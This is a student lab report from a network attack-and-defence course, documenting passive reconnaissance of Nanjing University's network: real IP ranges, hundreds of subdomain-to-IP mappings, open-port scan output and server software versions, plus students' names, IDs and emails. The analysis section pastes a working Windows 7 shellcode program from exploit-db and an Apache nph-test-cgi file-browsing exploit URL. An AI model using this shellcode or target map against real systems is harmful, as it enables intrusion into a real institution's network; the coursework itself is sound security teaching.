



# 
《网络攻防实战》实验报告

### **第1次实验：南大网络信息被动收集**

### 小组成员姓名：金宇航、成浩鹏

### 小组成员学号：181250062、181250020

### 18级软件学院大一班

### 小组成员邮箱：181250062@smail.nju.edu.cn、181250020@smail.nju.edu.cn

### 时间：2019.9.21

---

## 一、 实验目的

学习被动信息收集的工具，学习通过互联网搜索信息，学会分析被动信息。

## 二、 实验内容

1. 通过recon-ng等软件获取被动信息
2. 通过Google、shodan、nic.edu.cn等网站获取被动信息
3. 分析搜集到的被动信息

## 三、 实验结果

### 收集内容

#### IP地址段

202.119.32.0 - 202.119.63.255  NJU-CN
210.28.128.0 - 210.28.143.255 NJUB-CN
219.219.112.0 - 219.219.127.255 NJUC-CN
114.212.128.0 - 114.212.255.255 NJU-CN

#### 域名信息

210.28.130.9	ab.nju.edu.cn
210.28.130.10	scc.nju.edu.cn
210.28.130.15	entry.nju.edu.cn
210.28.130.10	ccmp.nju.edu.cn
210.28.130.5	access.nju.edu.cn
202.119.32.6	dns.nju.edu.cn
202.119.32.7	ndcwc.nju.edu.cn
202.119.32.12	ns.nju.edu.cn
202.119.32.14	w.nju.edu.cn
202.119.32.15	oa.nju.edu.cn
202.119.32.19	njuefwx.nju.edu.cn
202.119.32.20	njuefwx2.nju.edu.cn
202.119.32.22	elearning.nju.edu.cn
202.119.32.23	yxrz.nju.edu.cn
202.119.32.26	cas.nju.edu.cn
202.119.32.31	pweb.nju.edu.cn
202.119.32.35	oa2.nju.edu.cn
202.119.32.7	sgos.nju.edu.cn
202.119.32.7	nsc2017.nju.edu.cn
202.119.32.7	ias.nju.edu.cn
202.119.32.7	innovation-entrepreneurship.nju.edu.cn. 
202.119.32.7	sfs.nju.edu.cn
202.119.32.7	www.nju.edu.cn
202.119.32.7	ius.nju.edu.cn
202.119.32.7	geolab.nju.edu.cn
202.119.32.7	nic.nju.edu.cn
202.119.32.7	ndzcgs.nju.edu.cn
202.119.32.7	mpacc.nju.edu.cn
202.119.32.7	ndsc.nju.edu.cn
202.119.32.7	xkb.nju.edu.cn
202.119.32.7	jc.nju.edu.cn
202.119.32.7	cyd.nju.edu.cn
202.119.32.7	malab.nju.edu.cn
202.119.32.7	zd.nju.edu.cn
202.119.32.7	dii.nju.edu.cn
202.119.32.7	ttc.nju.edu.cn
202.119.32.7	hnchome.nju.edu.cn
202.119.32.7	www.sfs.nju.edu.cn
202.119.32.7	logic.nju.edu.cn
202.119.32.7	npgc2017.nju.edu.cn
202.119.32.7	nubs.nju.edu.cn
202.119.32.7	hwxy.nju.edu.cn
202.119.32.7	capds.nju.edu.cn
202.119.32.7	edp.nju.edu.cn
202.119.32.7	life.nju.edu.cn
202.119.32.7	scit.nju.edu.cn
202.119.32.7	ai.nju.edu.cn
202.119.32.7	as.nju.edu.cn
210.28.130.9	auth.nju.edu.cn
210.28.129.4	bbs.nju.edu.cn
210.28.129.5	vpn.nju.edu.cn
210.28.129.6	edoas2.nju.edu.cn
219.219.115.108	amps.nju.edu.cn
219.219.115.108	smp.nju.edu.cn
219.219.115.108	amp.nju.edu.cn
219.219.115.108	careers.nju.edu.cn
219.219.120.53	thea.nju.edu.cn
219.219.120.48	jwas3.nju.edu.cn
219.219.120.45	software.nju.edu.cn
219.219.120.50	jw.nju.edu.cn
219.219.120.57	cc.nju.edu.cn
219.219.120.60	astronomy.nju.edu.cn
219.219.120.61	soft2011.nju.edu.cn
219.219.120.63	hjsyjx.nju.edu.cn
219.219.120.60	enastronomy.nju.edu.cn
210.28.130.10	cluster.nju.edu.cn
202.119.32.7	conference.nju.edu.cn
202.119.32.7	cs.nju.edu.cn
114.212.7.205	yz.nju.edu.cn
114.212.7.206	cx.nju.edu.cn
114.212.7.210	cx.nju.edu.cn
219.219.115.28	manage.mysoftware.nju.edu.cn
219.219.115.29	kms.nju.edu.cn
219.219.115.30	d.nju.edu.cn
219.219.115.28	content.mysoftware.nju.edu.cn
219.219.115.28	client.mysoftware.nju.edu.cn
219.219.115.28	mysoftware.nju.edu.cn
219.219.115.28	user.mysoftware.nju.edu.cn
219.219.115.28	dl.mysoftware.nju.edu.cn
114.212.186.134	dawww.nju.edu.cn
114.212.186.135	oarch.nju.edu.cn
114.212.186.136	da.nju.edu.cn
114.212.186.138	jsgd.nju.edu.cn
114.212.186.139	lw.nju.edu.cn
114.212.186.141	acloud.nju.edu.cn
114.212.186.142	ndxb.nju.edu.cn
219.219.116.247	data.nju.edu.cn
114.212.253.3	de2.nju.edu.cn
114.212.253.4	de.nju.edu.cn
114.212.253.5	tres.nju.edu.cn
114.212.253.7	learning.nju.edu.cn
114.212.253.10	ces.nju.edu.cn
210.28.130.6	disk.nju.edu.cn
202.119.32.189	download.nju.edu.cn
202.119.32.33	dsl.nju.edu.cn
202.119.32.33	e.nju.edu.cn
202.119.32.7	edu.nju.edu.cn
202.119.32.7	eng.nju.edu.cn
202.119.32.7	es.nju.edu.cn
202.119.32.7	gh.nju.edu.cn
202.119.32.7	help.nju.edu.cn
202.119.32.7	hr.nju.edu.cn
202.119.32.33	im.nju.edu.cn
121.51.166.110	imap.nju.edu.cn
183.232.93.197	imap.nju.edu.cn
114.212.7.71	lib.nju.edu.cn
114.212.7.72	opac.nju.edu.cn
114.212.7.73	wechatdy.nju.edu.cn
114.212.7.73	mopac.nju.edu.cn
202.119.32.196	live.nju.edu.cn
202.119.32.197	monitor.nju.edu.cn
202.119.32.201	wrd.nju.edu.cn
202.119.32.197	t.nju.edu.cn
202.119.32.196	tv.nju.edu.cn
121.51.130.237	mail.nju.edu.cn
121.51.8.59	mail.nju.edu.cn
114.212.232.239	mc.nju.edu.cn
202.119.32.7	med.nju.edu.cn
202.119.32.33	media.nju.edu.cn
202.119.32.67	career.nju.edu.cn
202.119.32.68	mmnews.nju.edu.cn
202.119.32.70	mids.nju.edu.cn
202.119.32.71	mab.nju.edu.cn
202.119.32.72	mim.nju.edu.cn
202.119.32.73	mucp.nju.edu.cn
202.119.32.74	mapp.nju.edu.cn
202.119.32.76	mimx.nju.edu.cn
202.119.32.78	xggl.nju.edu.cn
202.119.32.79	gotonju.nju.edu.cn
202.119.32.84	cpay.nju.edu.cn
202.119.32.85	apptest.nju.edu.cn
202.119.32.86	myoa.nju.edu.cn
202.119.32.89	wx.nju.edu.cn
202.119.32.91	dnsweb.nju.edu.cn
202.119.32.89	imgwx.nju.edu.cn
202.119.32.89	ucwx.nju.edu.cn
202.119.32.79	oldbkzs.nju.edu.cn
202.119.32.68	mnews.nju.edu.cn
202.119.32.69	mm.nju.edu.cn
114.212.189.170	moon.nju.edu.cn
219.219.114.59	rc.nju.edu.cn
219.219.114.54	tuanwei.nju.edu.cn
219.219.114.62	imp.nju.edu.cn
219.219.114.63	app63.nju.edu.cn
219.219.114.64	was01.nju.edu.cn
219.219.114.65	history.nju.edu.cn
219.219.114.66	news.nju.edu.cn
219.219.114.71	rfd.nju.edu.cn
219.219.114.76	testids.nju.edu.cn
219.219.114.77	hugeo.nju.edu.cn
219.219.114.80	pyb.nju.edu.cn
219.219.114.84	qinggongxiao.nju.edu.cn
219.219.114.71	zytj.nju.edu.cn
219.219.114.62	survey.nju.edu.cn
219.219.114.62	my.nju.edu.cn
219.219.116.11	net.nju.edu.cn
219.219.115.146	netmeeting.nju.edu.cn
180.96.16.253	news.nju.edu.cn
182.140.213.106	news.nju.edu.cn
119.188.95.115	news.nju.edu.cn
116.211.138.205	news.nju.edu.cn
180.96.16.244	news.nju.edu.cn
202.119.32.33	ng.nju.edu.cn
114.212.11.200	nms.nju.edu.cn
202.119.32.181	ntp.nju.edu.cn
114.212.186.134	online.nju.edu.cn
219.219.115.75	mcsf.nju.edu.cn
219.219.115.70	studyrsc.nju.edu.cn
219.219.115.67	stuex.nju.edu.cn
219.219.115.62	mappdb.nju.edu.cn
219.219.115.63	mdb.nju.edu.cn
219.219.115.64	mongodb.nju.edu.cn
219.219.115.68	zzf.nju.edu.cn
219.219.115.69	study.nju.edu.cn
219.219.115.71	studyauth.nju.edu.cn
219.219.115.76	workflow.nju.edu.cn
219.219.115.77	order.nju.edu.cn
219.219.114.94	hrmis.nju.edu.cn
219.219.114.96	ens.nju.edu.cn
219.219.114.97	public.nju.edu.cn
219.219.114.98	sizheng.nju.edu.cn
219.219.114.100	bdrc.nju.edu.cn
219.219.114.101	grazzh.nju.edu.cn
219.219.114.97	socialsecurity.nju.edu.cn
219.219.114.97	pa.nju.edu.cn
219.219.117.211	pk.nju.edu.cn
114.212.232.4	qpl.nju.edu.cn
114.212.232.2	graphy.nju.edu.cn
114.212.232.3	sun.nju.edu.cn
114.212.232.8	chenwang.nju.edu.cn
114.212.232.9	pl.nju.edu.cn
114.212.232.10	zren.nju.edu.cn
114.212.232.4	quantum.nju.edu.cn
121.51.166.110	pop.nju.edu.cn
183.232.93.197	pop.nju.edu.cn
114.212.216.19	cssci.nju.edu.cn
114.212.216.21	press.nju.edu.cn
114.212.216.24	ndyyy.nju.edu.cn
114.212.216.26	cbkci.nju.edu.cn
202.119.32.7	public.nju.edu.cn
202.119.32.123	zcps.ehallapp.nju.edu.cn
202.119.32.123	mdm.nju.edu.cn
202.119.32.123	njuhr.nju.edu.cn
202.119.32.123	esop.nju.edu.cn
202.119.32.123	apis.nju.edu.cn
202.119.32.123	authserver.nju.edu.cn
202.119.32.123	imps.nju.edu.cn
202.119.32.123	tp.ehallapp.nju.edu.cn
202.119.32.123	zjps.ehallapp.nju.edu.cn
202.119.32.123	zp.ehallapp.nju.edu.cn
202.119.32.123	bd.ehallapp.nju.edu.cn
202.119.32.123	res.nju.edu.cn
202.119.32.123	pwd.nju.edu.cn
202.119.32.123	ehall.nju.edu.cn
202.119.32.123	ehallapp.nju.edu.cn
202.119.37.248	s.nju.edu.cn
202.119.32.7	sc.nju.edu.cn
114.212.190.14	sec.nju.edu.cn
202.119.32.7	security.nju.edu.cn
183.232.93.197	smtp.nju.edu.cn
202.119.32.33	software.nju.edu.cn
202.119.32.7	ssl.nju.edu.cn
114.212.189.92	innovation.nju.edu.cn
114.212.189.94	st.nju.edu.cn
210.28.129.90	vpn.nju.edu.cn
210.28.129.91	vpn2.nju.edu.cn
114.212.190.143	ws.nju.edu.cn
210.28.132.176	ws2.nju.edu.cn

#### 服务器操作系统及其版本
方法一:p0f被动收集 结果:被隐藏

方法二:shodan

开放端口有80 443 

#### 服务器开放端口（TCP/UDP）
通过theharvester -d nju.edu.cn -l 300 -b baidu -h -p收集
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for Public.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for admission.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for as.nju.edu.cn
- Scanning : 210.28.129.4
         Searching takeovers for bbs.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for bkzs.nju.edu.cn
- Scanning : 210.28.130.6
         Detected open ports: 80,443
         Searching takeovers for box.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for ces.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for charity.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for chem.nju.edu.cn
- Scanning : 114.212.160.18
         Detected open ports: 80,21
         Searching takeovers for chemosa.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for chin.nju.edu.cn
- Scanning : 210.28.130.10
         Detected open ports: 80,443
         Searching takeovers for cluster.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for cma.nju.edu.cn
- Scanning : 114.212.191.117
         Detected open ports: 80,22
         Searching takeovers for cosec.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for cs.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for cslab.nju.edu.cn
- Scanning : 114.212.216.19
         Searching takeovers for cssci.nju.edu.cn
- Scanning : 219.219.114.10
         Detected open ports: 80,8080,21
         Searching takeovers for cssrac.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for ctl.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for cvd.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for dii.nju.edu.cn
- Scanning : 114.212.80.11
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for dsl.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for edu.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for elearning.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for elite.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for emba.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for eng.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for es.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for ese.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for essi.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for gattaca.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for genxililab.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for geology.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for gh.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for gis.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for grawww.nju.edu.cn
- Scanning : 202.119.55.10
         Searching takeovers for hnc.nju.edu.cn)
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for hr.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for hwxy.nju.edu.cn
- Scanning : 114.212.160.18
         Detected open ports: 80,21
         Searching takeovers for hysz.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for ias.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for im.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for itcc.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for itsc.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for jc.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for jfzhang.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for jianglab.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for jshr.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for jw.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for jwb.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for kym.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for lamd.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for law.nju.edu.cn
- Scanning : 114.212.7.71
         Searching takeovers for lib.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for life.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for lndx.nju.edu.cn
- Scanning : 58.250.136.39
         Detected open ports: 80,443
         Searching takeovers for mail.nju.edu.cn
- Scanning : 58.251.81.43
         Detected open ports: 80,443
         Searching takeovers for mail.smail.nju.edu.cn
- Scanning : 114.212.200.8
         Detected open ports: 80,22,8080
         Searching takeovers for math.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for med.nju.edu.cn
- Scanning : 219.219.115.97
         Detected open ports: 80,22
         Searching takeovers for museum.nju.edu.cn
- Scanning : 114.212.232.20
         Searching takeovers for nanofab.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for ndcwc.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for ndsc.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for ndzbb.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for njumaths.nju.edu.cn
- Scanning : 114.212.189.224
         Detected open ports: 80,443,8080,21
         Searching takeovers for nlp.nju.edu.cn
- Scanning : 210.28.136.19
         Detected open ports: 80,8080
         Searching takeovers for npl.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for nsc2017.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for nubs.nju.edu.cn
- Scanning : 210.28.136.23
         Detected open ports: 80,21
         Searching takeovers for optics.nju.edu.cn
- Scanning : 219.219.114.172
         Detected open ports: 80,22
         Searching takeovers for p.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for pangroup.nju.edu.cn
- Scanning : 219.219.114.140
         Detected open ports: 80,22,8080,21
         Searching takeovers for pay.nju.edu.cn
- Scanning : 210.28.130.10
         Detected open ports: 80,443
         Searching takeovers for pfm2013.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for physics.nju.edu.cn
- Scanning : 210.28.130.4
         Detected open ports: 80,443
         Searching takeovers for pip.nju.edu.cn
- Scanning : 210.28.136.17
         Detected open ports: 80,443
         Searching takeovers for pld.nju.edu.cn
- Scanning : 114.212.160.18
         Detected open ports: 80,21
         Searching takeovers for polymer.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for public.nju.edu.cn
- Scanning : 219.219.114.80
         Searching takeovers for pyb.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for rczp.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for sccm.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for scit.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for sfs.nju.edu.cn
- Scanning : 114.212.80.16
         Detected open ports: 80,22,21
         Searching takeovers for sgisc.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for sgos.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for skch.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for sklac.nju.edu.cn
- Scanning : 114.212.160.18
         Detected open ports: 80,21
         Searching takeovers for sklcc.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for sme.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for software.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for stuex.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for tzb.nju.edu.cn
- Scanning : 202.119.32.33
         Detected open ports: 80,443,8080
         Searching takeovers for vision.nju.edu.cn
- Scanning : 210.28.129.90
         Detected open ports: 80,443
         Searching takeovers for vpn.nju.edu.cn
- Scanning : 210.28.129.90
         Detected open ports: 80,443
         Searching takeovers for vpn3.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for wb.nju.edu.cn
- Scanning : 219.219.115.21
         Detected open ports: 80,443,22
         Searching takeovers for webplus.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for www.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for xgc.nju.edu.cn
- Scanning : 219.219.117.63
         Detected open ports: 80,8080
         Searching takeovers for xsgz.jlxy.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for xxgk.nju.edu.cn
- Scanning : 114.212.232.28
         Searching takeovers for zhenda.nju.edu.cn
- Scanning : 202.119.32.7
         Detected open ports: 80,443
         Searching takeovers for zhwh.nju.edu.cn

#### 监听服务器端口的软件及其版本

利用shodan进行收集 以202.119.55.10(hcc.nju.edu.cn)为例

开放了3个端口
25端口的软件为 IMail NT-ESMTP 	Version: 12.5.7.59 608411-1
80端口的软件为 Microsoft IIS httpd      Version: 8.5
110端口暂无软件

#### 路由器/交换机/防火墙信息

防火墙信息
通过检查回包扫描 	命令: nmap 219.219.114.172 -sA (以p.nju.edu.cn为例)
结果:没有防火墙

没有搜索到路由器和交换机信息

###　收集内容分析

#### 服务器操作系统分析

如图, 操作系统为win7或者win8, 通过searchsploit -t windows 在kali本地找windows7 的漏洞, 找到的漏洞文件如下:

/*
 | Title: Windows Seven x64 (cmd) Shellcode 61 Bytes
 | Type: Shellcode
 | Author: agix
 | Platform: win32
 | Info: Tested on Windows Seven Pro Fr, Ultimate En, Premium Home En
*/

1-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=0
0     _                   __           __       __                     1
1   /' \            __  /'__`\        /\ \__  /'__`\                   0
0  /\_, \    ___   /\_\/\_\ \ \    ___\ \ ,_\/\ \/\ \  _ ___           1
1  \/_/\ \ /' _ `\ \/\ \/_/_\_<_  /'___\ \ \/\ \ \ \ \/\`'__\          0
0     \ \ \/\ \/\ \ \ \ \/\ \ \ \/\ \__/\ \ \_\ \ \_\ \ \ \/           1
1      \ \_\ \_\ \_\_\ \ \ \____/\ \____\\ \__\\ \____/\ \_\           0
0       \/_/\/_/\/_/\ \_\ \/___/  \/____/ \/__/ \/___/  \/_/           1
1                  \ \____/ >> Exploit database separated by exploit   0
0                   \/___/          type (local, remote, DoS, etc.)    1
1                                                                      1
0  [+] Site            : Inj3ct0r.com                                  0
1  [+] Support e-mail  : submit[at]inj3ct0r.com                        1
0                                                                      0
1                    ##################################                1
0                    I'm agix member from Inj3ct0r Team                1
1                    ##################################                0
0-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-==-=-=-1

#include <stdio.h>

char shellcode[] =

"\x31\xC9"               //xor ecx,ecx
"\x64\x8B\x71\x30"           //mov esi,[fs:ecx+0x30]
"\x8B\x76\x0C"             //mov esi,[esi+0xc]
"\x8B\x76\x1C"             //mov esi,[esi+0x1c]
"\x8B\x36"               //mov esi,[esi]
"\x8B\x06"               //mov eax,[esi]
"\x8B\x68\x08"             //mov ebp,[eax+0x8]
"\xEB\x20"               //jmp short 0x35
"\x5B"                 //pop ebx
"\x53"                 //push ebx
"\x55"                 //push ebp
"\x5B"                 //pop ebx
"\x81\xEB\x11\x11\x11\x11"     //sub ebx,0x11111111
"\x81\xC3\xDA\x3F\x1A\x11"     //add ebx,0x111a3fda (for seven X86 add ebx,0x1119f7a6)
"\xFF\xD3"               //call ebx
"\x81\xC3\x11\x11\x11\x11"     //add ebx,0x11111111
"\x81\xEB\x8C\xCC\x18\x11"     //sub ebx,0x1118cc8c (for seven X86 sub ebx,0x1114ccd7)
"\xFF\xD3"               //call ebx
"\xE8\xDB\xFF\xFF\xFF"         //call dword 0x15
//db "cmd"
"\x63\x6d\x64";

int main(int argc, char **argv) {
        int *ret;
        ret = (int *)&ret + 2;
        (*ret) = (int) shellcode;
}

#### 开放端口分析

通过之前分析的开放端口, 结合在网上搜索的端口信息(https://blog.csdn.net/kexiuyi/article/details/51704699), 可能有如下的漏洞:

21端口: 因为有的FTP服务器可以通过匿名登录，所以常常会被黑客利用。另外，21端口还会被一些木马利用。

22端口: ssh远程连接, 密码有被暴力破解的风险, openssh可能会存在漏洞

443端口: HTTPS服务一般是通过SSL来保证安全性的，但是SSL漏洞可能会受到黑客的攻击

#### 使用软件分析

Apache httpd 1.1

通过在[https://www.exploit-db.com](https://www.exploit-db.com/)上的信息, 找到该服务软件的漏洞: 利用shell 命令扩展, 通过www浏览文件系统

Apache <= 1.1,NCSA httpd <= 1.5.2,Netscape Commerce Server 1.12/Communications Server 1.1/Enterprise Server 2.0 a nph-test-cgi Vulnerability   
source: https://www.securityfocus.com/bid/686/info
Description as given by Josh Richards:
A security hole exists in the nph-test-cgi script included in most UNIX based World Wide Web daemon distributions. The nph-* scripts exist to allow 'non-parsed headers' to be sent via the HTTP protocol (this is not the cause of this security problem, though). The problem is that nph-test-cgi, which prints out information on the current web environment (just like 'test-cgi' does) does not enclose its arguments to the 'echo' command inside of quotes....shell escapes are not possible (or at least I have not found them to be--yet) but shell *expansion* is.... This means that _any_ remote user can easily browse your filesystem via the WWW.
This is a bug with the nph-test-cgi script and _not_ the server itself. 
Enter the URL: <http://yourwebserver.com/cgi-bin/nph-test-cgi?*>
Replace <yourwebserver.com> with the hostname of a server running a web
daemon near you.

#### 可能会被利用的漏洞并给出理由

可能会有系统漏洞被利用，因为通过系统，相对于应用软件，攻击成功后能获得更高的权限，更方便于进一步的攻击。

## 四、 实验中遇到的问题及解决方案

1. recon-ng的版本为v5.0.0，一些命令和旧版本不同，不知道如何使用
2. recon-ng中使用recon/domains-hosts/hackertarget模块时，`options set SOURCE nju.edu.cn` `run` 命令出现`[!] Error check your search parameter.`，不知道如何解决。设置www.nju.edu.cn则没有报错，但是获取不到主机信息

## 五、 组员分工

分别收集了一部分信息，并进行分析。

## 六、 实验的启示/意见和建议

启示：善于利用互联网、搜索引擎等，获取被动信息并分析。

---

本次实验总共用了一周。